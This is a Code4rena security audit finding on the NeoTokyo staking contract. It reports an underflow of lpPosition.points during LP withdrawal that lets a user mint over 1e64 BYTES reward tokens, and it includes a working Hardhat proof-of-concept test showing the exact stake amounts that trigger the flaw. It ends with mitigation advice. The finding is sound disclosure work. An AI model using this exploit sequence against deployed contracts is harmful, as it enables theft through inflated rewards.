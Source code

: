 ## Tags

- bug
- 3 (High Risk)
- judge review requested
- primary issue
- satisfactory
- selected for report
- sponsor confirmed
- H-02

# [Underflow of `lpPosition.points` during withdrawLP causes huge reward minting](https://github.com/code-423n4/2023-03-neotokyo-findings/issues/261) 

# Lines of code

https://github.com/code-423n4/2023-03-neotokyo/blob/main/contracts/staking/NeoTokyoStaker.sol#L1622-L1631


# Vulnerability details

## Impact
NeoTokyoStaking allows to stake and withdraw LPs. User can stake multiple times on same position which simply results in extended lock time and user can withdraw all of these LPs once lock time is passed.

There is a scenario when withdrawing LPs results in overflow of [lpPosition.points](https://github.com/code-423n4/2023-03-neotokyo/blob/main/contracts/staking/NeoTokyoStaker.sol#L1627). After withdraw if attacker calls `getRewards()` then attacker will get more than 1e64 BYTES tokens as reward.

## Proof of Concept
Affected code block: [NeoTokyoStaker.sol#L1622-L1631](
https://github.com/code-423n4/2023-03-neotokyo/blob/main/contracts/staking/NeoTokyoStaker.sol#L1622-L1631)

Affected line: [L1627](https://github.com/code-423n4/2023-03-neotokyo/blob/main/contracts/staking/NeoTokyoStaker.sol#L1627)

From below POC you can see that Alice is staking twice and some specific amounts which will trigger underflow when Alice withdraw LP. Once staked LPs are unlocked, Alice can withdraw her LPs and call `getReward()` to trigger minting of more than 1e64 BYTES tokens.

Below test can be added in `NeoTokyoStaker.test.js` test file.
```js
		it('Unexpected rewards minting due to underflow of "points"', async function () {
			// Configure the LP token contract address on the staker.
			await NTStaking.connect(owner.signer).configureLP(LPToken.address);
			const amount1 = ethers.utils.parseEther('10.009')
			const amount2 = ethers.utils.parseEther('11.009')
			const lockingDays = 30
			
			// Alice stake amount1 LPs for 30 days.
			await NTStaking.connect(alice.signer).stake(
				ASSETS.LP.id,
				TIMELOCK_OPTION_IDS[lockingDays],
				amount1,
				0,
				0
			);

			// Alice stake amount2 LPs for 30 days.
			await NTStaking.connect(alice.signer).stake(
				ASSETS.LP.id,
				TIMELOCK_OPTION_IDS[lockingDays],
				amount2,
				0,
				0
			);

			const priorBlockNumber = await ethers.provider.getBlockNumber();
			const priorBlock = await ethers.provider.getBlock(priorBlockNumber);
			let aliceStakeTime = priorBlock.timestamp;
			
			// Bob stake 10 LPs for 30 days
			await NTStaking.connect(bob.signer).stake(
				ASSETS.LP.id,
				TIMELOCK_OPTION_IDS[lockingDays],
				ethers.utils.parseEther('10'),
				0,
				0
			);

			// Set time to unlock staked lp
			await ethers.provider.send('evm_setNextBlockTimestamp', [
				aliceStakeTime + (60 * 60 * 24 * lockingDays)
			]);
			
			// Alice withdraw LP
                        // This transaction will cause underflow of `lpPosition.points`
			await NTStaking.connect(alice.signer).withdraw(
				ASSETS.LP.id,
				amount1.add(amount2)
			);

			// Before exploit:: Verify Alice's Bytes balance is less than 10000 BYTES
			expect(await NTBytes2_0.balanceOf(alice.address)).lt(ethers.utils.parseUnits('10000', 18))
			
			// Get rewards for Alice. It will mint HUGE rewards due to underflow happened on withdraw transaction.
			await NTBytes2_0.getReward(alice.address)

			// After exploit:: Verify Alice's Bytes balance is greater than 3e64
			expect(await NTBytes2_0.balanceOf(alice.address)).gt(ethers.utils.parseUnits('3', 64))
		});
```

## Tools Used
Manual

## Recommended Mitigation Steps
Consider adding proper precision for `points` and `totalPoints` and also consider checking for under/overflows.